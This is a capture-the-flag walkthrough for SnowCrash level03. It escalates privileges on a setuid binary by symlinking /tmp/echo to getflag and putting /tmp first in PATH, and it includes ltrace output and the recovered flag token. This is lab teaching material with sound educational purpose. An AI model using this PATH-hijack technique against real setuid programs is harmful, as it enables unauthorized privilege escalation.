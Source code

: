 # SnowCrash Level03 Walkthrough

## Overview
Level03 focuses on binary exploitation through PATH manipulation and symbolic links. This level demonstrates how insecure system calls can be exploited to gain elevated privileges.

## Initial Investigation

Upon logging into the level03 user, we immediately find an executable file:

```bash
level03@SnowCrash:~$ ls -la
total 17
dr-xr-x---+ 1 level03 level03   120 Mar  5  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level03 level03   220 Apr  3  2012 .bash_logout
-r-x------  1 level03 level03  3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag03  level03  8627 Mar  5  2016 level03
-r-x------  1 level03 level03   675 Apr  3  2012 .profile
```

### Key Observations
- The `level03` binary has **setuid** and **setgid** bits set (`-rwsr-sr-x`)
- It's owned by `flag03` user, meaning it runs with flag03 privileges
- When executed, it simply outputs "Exploit me"

```bash
level03@SnowCrash:~$ ./level03
Exploit me
```

## Binary Analysis with ltrace

To understand what the binary does internally, we use `ltrace` to trace library calls:

> **ltrace** is a debugging tool that intercepts and records dynamic library calls made by a program, showing function calls, arguments, and return values.

```bash
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7a4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                        = 2003
geteuid()                                        = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```

### Critical Discovery
The binary makes a **vulnerable system call**:
```c
system("/usr/bin/env echo Exploit me");
```

This call uses `/usr/bin/env` to find the `echo` command in the system PATH, which creates an opportunity for PATH manipulation.

## Understanding the Target

Let's examine what we need to access:

```bash
level03@SnowCrash:~$ ls -la /bin/getflag
-rwxr-xr-x 1 root root 11833 Aug 30  2015 /bin/getflag
```

The `getflag` binary is owned by root, but when we try to execute it directly:

```bash
level03@SnowCrash:~$ getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

This suggests that `getflag` checks the effective user ID and only provides the real flag when run with appropriate privileges.

## Exploitation Strategy

The attack plan involves:
1. Creating a malicious `echo` command that executes `getflag`
2. Manipulating the PATH to make the system find our malicious `echo` first
3. Running the vulnerable binary to trigger the exploit

### Step 1: Create a Symbolic Link

Create a symbolic link in `/tmp` that points to `getflag`:

```bash
level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
```

### Step 2: Verify the Link

Test that our symbolic link works:

```bash
level03@SnowCrash:~$ /tmp/echo
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

This still shows the "Nope" message because we're not running with elevated privileges yet.

### Step 3: PATH Manipulation

Modify the PATH environment variable to prioritize `/tmp` over system directories:

```bash
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Or, for a more aggressive approach, set PATH to only include `/tmp`:

```bash
level03@SnowCrash:~$ export PATH=/tmp
level03@SnowCrash:~$ export | /bin/grep PATH
declare -x PATH="/tmp"
```

### Step 4: Execute the Exploit

Now when we run the vulnerable binary:

```bash
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

## How the Exploit Works

1. **Vulnerable System Call**: The `level03` binary calls `system("/usr/bin/env echo Exploit me")`
2. **PATH Resolution**: `/usr/bin/env` searches the PATH for the `echo` command
3. **Malicious Echo**: Our modified PATH causes it to find `/tmp/echo` (our symbolic link to `getflag`)
4. **Privilege Escalation**: Since `level03` runs with `flag03` privileges (setuid), our symbolic link executes with those same privileges
5. **Flag Retrieval**: `getflag` runs with elevated privileges and returns the actual flag

## Security Implications

This level demonstrates several critical security vulnerabilities:

- **Insecure PATH Usage**: Using `system()` with relative paths
- **Setuid Binary Risks**: Combining setuid with system calls
- **Environment Variable Injection**: Allowing user-controlled environment variables to affect privileged operations

## Alternative Approaches

Instead of a symbolic link, you could also create a script:

```bash
#!/bin/bash
/bin/getflag
```

Save this as `/tmp/echo`, make it executable with `chmod +x /tmp/echo`, and follow the same PATH manipulation steps.

## Flag
```
qi0maab88jeaj46qoumi7maus
```

This flag allows access to the next level of the SnowCrash challenge.

## Key Learnings

1. **PATH Manipulation**: Understanding how system PATH resolution works
2. **Setuid Vulnerabilities**: How setuid binaries can be exploited through environment variables
3. **System Call Security**: The dangers of using `system()` with user-controllable input
4. **Binary Analysis**: Using tools like `ltrace` to understand program behavior
5. **Privilege Escalation**: Leveraging existing privileges to gain higher access levels